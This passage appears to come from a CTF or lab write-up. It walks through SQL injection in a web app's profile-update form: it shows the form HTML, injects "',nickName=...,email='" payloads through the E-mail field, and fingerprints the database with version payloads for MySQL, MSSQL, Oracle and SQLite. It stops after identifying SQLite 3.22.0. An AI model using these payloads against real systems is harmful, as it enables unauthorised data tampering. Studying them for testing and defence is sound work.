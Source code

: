 ```shell
        <div class="form-group">
            <label for="password">Password:</label>
            <input type="password" class="form-control" placeholder="Password" id="password" name="password">
        </div>
        <div class="form-group">
            <button type="submit" class="btn btn-primary btn-block">Change</button>
        </div>
        <div class="clearfix">
            <label class="pull-left checkbox-inline"></label>
        </div>
    </form>
</div>
```

Notice on the code that Nick Name and E-mail both user "name=", but Password uses "id=".

We got 3 input boxes: Nick Name, E-mail and Password.

If we enter the following payload only on the input E-mail:

```shell
asd',nickName='test',email='hacked
```

And we enter "a" as Nick Name and Password, we will see that the username got changed to test too, even if we entered "a" as Nick Name.

This means, if we enter the payload into the Nick Name only, only the Nick Name is updated. But if we enter the payload into the E-mail field, both fields Nick Name and E-mail are updated.

We managed to the a successful first test now, telling us that the application is vulnerable, and we also have the right amount of columns (If we didnt have the right amount of columns, the fields wouldnt have got updated).

##### Detecting Database and Version

Now we need to identify the database using the following payloads on the E-mail input and see which one give us a version number as a result when the Nick Name gets updated:

```shell
# MySQL and MSSQL
',nickName=@@version,email='

# For Oracle
',nickName=(SELECT banner FROM v$version),email='

# For SQLite
',nickName=sqlite_version(),email='
```

The following payload updated the Nick Name to 3.22.0:

```shell
# For SQLite
',nickName=sqlite_version(),email='
```

